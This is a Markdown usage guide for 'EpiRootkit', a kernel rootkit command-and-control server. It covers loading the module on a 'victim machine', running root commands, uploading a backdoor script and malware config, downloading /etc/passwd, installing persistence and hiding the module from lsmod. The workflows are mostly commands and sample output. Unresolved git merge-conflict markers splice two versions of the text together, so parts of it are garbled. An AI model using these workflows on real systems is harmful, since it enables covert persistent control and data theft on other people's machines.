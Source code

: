 ```yaml
---
title: "Usage Guide"
description: "Comprehensive usage scenarios and workflows"
icon: "menu_book"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 34
---
```


<<<<<<< HEAD
## Running the Server & Web UI
=======
# Usage Guide
>>>>>>> d8205ef9e1984d8455d84e1cada77692ef2857c0

Complete workflows and usage scenarios for the EpiRootkit C2 server.

## Getting Started

### 1. Start the C2 Server
```bash
<<<<<<< HEAD
pnpm start
```

This command starts both the C2 server and the Web UI. The CLI prompt (`c2-server$ `) will appear for server management, and the Web UI will be available at [http://localhost:3000](http://localhost:3000) by default.

Real-time event logs appear in the console, providing visual alerts for significant events such as client connections and disconnections.
=======
cd attacking_program
pnpm start
```

### 2. Wait for Rootkit Connection
```bash
# On victim machine
sudo insmod epirootkit.ko
>>>>>>> d8205ef9e1984d8455d84e1cada77692ef2857c0

# C2 server will show:
┌─ Client-1
  ✓ [2025-05-25 16:13:29] Connected
└─
```

### 3. Authenticate
```bash
c2-server$ auth Client-1 <password> (default: password)
┌─ Client-1
  ✓ [2025-05-25 16:13:30] Authenticated
└─
```

#### Brute Force Protection

Rate limit to 5 attempts per 60 seconds.

## Basic Workflows

### Client Management Workflow

#### List and Monitor Clients
```bash
# List all connected clients
c2-server$ ls
┌─ Connected Clients
  • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
  • Client-2 - UNAUTHENTICATED - Last seen: 6:10:15 PM
└─

# Check specific client status
c2-server$ status Client-1
┌─ Client-1
  • [2025-05-25 16:13:30] Command result:
  • EpiRootkit Status:
  • Version: 1.0.0
  • Authentication: YES
  • Connection: CONNECTED
  • Module Hidden: YES
  • Encryption: DISABLED
  • Persistence: ENABLED
└─

# Monitor connection health
c2-server$ keepalive Client-1
┌─ Client-1
  • [2025-05-25 16:13:31] Command result:
  • Keepalive Status:
  • Last ping sent: 2025-05-25 16:14:00
  • Connection stable: YES
└─
```

### Command Execution Workflow

#### Basic System Commands
```bash
# Check user privileges
c2-server$ exec Client-1 whoami
┌─ Client-1
  • [2025-05-25 16:13:32] Command result:
  • root
└─

# System information
c2-server$ exec Client-1 uname -a
┌─ Client-1
  • [2025-05-25 16:13:33] Command result:
  • Linux victim 5.4.0-74-generic #83-Ubuntu SMP Wed Apr 29 23:25:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
└─

```


### File Transfer Workflow

#### Upload Files to Victim
```bash
# Upload a script
c2-server$ upload Client-1 ./scripts/backdoor.sh /tmp/backdoor.sh
┌─ File Upload
  • Uploading ./scripts/backdoor.sh → /tmp/backdoor.sh
  ✓ Upload initiated
└─

# Upload configuration
c2-server$ upload Client-1 ./configs/malware.conf /etc/malware.conf
┌─ File Upload
  • Uploading ./configs/malware.conf → /etc/malware.conf
  ✓ Upload initiated
└─

# Verify upload
c2-server$ exec Client-1 ls -la /tmp/backdoor.sh
c2-server$ exec Client-1 chmod +x /tmp/backdoor.sh
```

#### Download Files from Victim
```bash
# Download sensitive files
c2-server$ download Client-1 /etc/passwd ./victim_passwd
┌─ File Download
  • Downloading /etc/passwd → ./victim_passwd
  ✓ Download request sent
└─
```

## Advanced Workflows

### Persistence Management

#### Install Persistence
```bash
# Interactive persistence menu
c2-server$ persist Client-1
┌─ Persistence Management - Client-1
  • Install All Methods
  • Remove All Methods
  • Install Specific Method
  • Show Status
  • Exit

? Select persistence action: Install All Methods
┌─ Installing Persistence
  • Installing all persistence mechanisms on Client-1...
  ✓ all persistence mechanisms installation command sent
└─

# Install specific method
c2-server$ persist Client-1 install modules
┌─ Installing Persistence
  • Installing modules-load.d persistence on Client-1...
  ✓ modules-load.d persistence installation command sent
└─
```


### Stealth Configuration

#### Interactive Configuration
```bash
c2-server$ config Client-1
┌─ Configuration - Client-1
  • Fetching current status...

  Current Configuration:
  [X] Module Hiding (Click to disable)
  [ ] Persistence (Click to enable)
  Refresh Status
  Exit

? Select option: [X] Module Hiding (Click to disable)
┌─ Configuration - Client-1
  • Applying configuration change...
  ✓ Configuration updated
└─
```

#### Manual Stealth Commands
```bash
# Hide module from lsmod
c2-server$ exec Client-1 lsmod | grep epirootkit
# (should show module)

# Enable hiding
c2-server$ status Client-1
# Check if "Module Hidden: YES"

# Verify hiding
c2-server$ exec Client-1 lsmod | grep epirootkit
# (should show no output if hidden)
```

